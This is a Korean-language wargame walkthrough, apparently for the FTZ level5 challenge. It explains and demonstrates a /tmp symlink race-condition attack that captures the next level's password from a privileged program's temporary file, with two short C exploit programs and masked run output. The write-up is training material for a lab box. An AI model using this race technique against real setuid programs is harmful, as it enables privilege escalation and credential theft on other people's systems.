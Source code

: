 파일에 쓰여지는 내용이 실제 `level6`의 패스워드 이므로 레이스 컨디션 공격을 이용해 임시 파일을 생성하기 직전에 특정 프로그램을 이용해 임시 파일에 링크를 걸고 링크 파일을 통해 미리 만들어 둔 파일에 내용을 쓰게 하면 된다.

말 그대로 경쟁 상태를 만들기 위해 루프를 도는 프로그램을 짜서 공격이 가능하다.

```c
//run.c
#include <stdio.h>

int main()
{
        int i;
        for(i=0;i<=10;i++)
        {
                system("/usr/bin/level5 & 2>/dev/null");
        }
}
```

```c
//race.c
#include <stdio.h>

int main()
{
        int i;
        system("touch /tmp/password");
        for(i=0;i<=10;i++)
        {
                printf("[+] %d Try racecondition.\n",i);
                system("ln -s /tmp/password /tmp/level5.tmp 2>/dev/null");
                printf("[+] Password\n");
                system("cat /tmp/password");
        }
        system("rm -rf /tmp/level5.tmp /tmp/password");

}
```

실행 결과는 다음과 같다.

```
[level5@ftz tmp]$ ./auto.sh 
[+] 0 Try racecondition.
[+] Password
[+] 1 Try racecondition.
[+] Password
[+] 2 Try racecondition.
[+] Password
next password : ~~~~~~~~~~~~~
[+] 3 Try racecondition.
[+] Password
next password : ~~~~~~~~~~~~~
[+] 4 Try racecondition.
[+] Password
next password : ~~~~~~~~~~~~~
[+] 5 Try racecondition.
[+] Password
next password : ~~~~~~~~~~~~~
[+] 6 Try racecondition.
[+] Password
next password : ~~~~~~~~~~~~~
[+] 7 Try racecondition.
[+] Password
next password : ~~~~~~~~~~~~~
[+] 8 Try racecondition.
[+] Password
```